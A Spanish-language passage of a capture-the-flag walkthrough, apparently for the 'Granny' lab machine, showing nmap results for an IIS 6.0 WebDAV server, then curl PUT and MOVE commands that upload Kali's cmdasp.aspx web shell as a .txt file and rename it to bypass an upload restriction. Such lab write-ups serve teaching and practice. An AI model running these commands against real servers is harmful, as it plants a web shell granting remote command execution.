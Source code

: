 ```console
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Server Type: Microsoft-IIS/6.0
|   Server Date: Sun, 30 Aug 2020 03:15:51 GMT
|_  WebDAV type: Unknown
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Aug 29 22:13:12 2020 -- 1 IP address (1 host up) scanned in 13.58 seconds

```

El escaneo determino lo siguiente:

* Puerto 80 con un servicio IIS 6.0. (Muy antiguo)
* Métodos PUT y MOVE disponibles (**Riesgo: Alto**)

Nuestro escaneo nmap retorno  que tenemos permisos de ejecutar el método `PUT` en el `WebDAV`

# Enumeración con webdav.

Por lo que rápidamente utilizo la herramienta `davtest` para realizar una enumeración de que tipo de archivos podemos subir al `WebDAV`.

```console
intrusionz3r0@kali:~$ davtest -url http://granny.htb
```
![](https://lh3.googleusercontent.com/mCj1lccKMemScxHyZw00bw0Mkz6yYIS796EizDOjRBpPPXPqbFyQdDHJZPRcync8gDTgN6v0z9ISSrvj_BlqdSQZ0ZnHSl676XgFJqUx9rpht9I1TKb8-ROAJgzlFbJUFS6ToLu2)

El herramienta determino que nosotros no tenemos permitidos subir archivo `aspx` pero no se preocupen, no todo esta perdido, tenemos el método `MOVE`  que como en Linux nos permite renombrar un archivo aquí podemos hacer prácticamente lo mismo, nosotros vamos a subir una shell en `aspx` con extensión `txt` y después sustituir la extensión  `txt` con `aspx` utilizando el método  `MOVE`.

# Subida de shell en aspx.

Para ellos utilizaremos la shell aspx que viene incluida en kali linux.

```console
intrusionz3r0@kali:~$ cp /usr/share/webshells/aspx/cmdasp.aspx .
```

Ahora que tenemos la shell en nuestro directorio de trabajo, vamos a subirla utilizando la herramienta `curl`.

```console
intrusionz3r0@kali:~$ curl -X PUT http://granny.htb/cmdasp.txt --data-binary @cmdasp.aspx
```
![](https://lh4.googleusercontent.com/OgjtOhZ2ko2Umpnkzt1RRpTHcjTcWeh2rpsCFV9hqg1oXSWZrGDGXd6lJYg9PFutDOELSvtUYlSgPBiAps7uClFuAkcX8RdhMkhk36mqEis8hp3z5DSyN0LxpT105zn7_O0wK6FX)

Ahora vamos a renombrar el archivo.
```console
intrusionz3r0@kali:~$ curl -X MOVE -H "Destination:http://granny.htb/cmdasp.aspx" http://granny.htb/cmdasp.txt
```
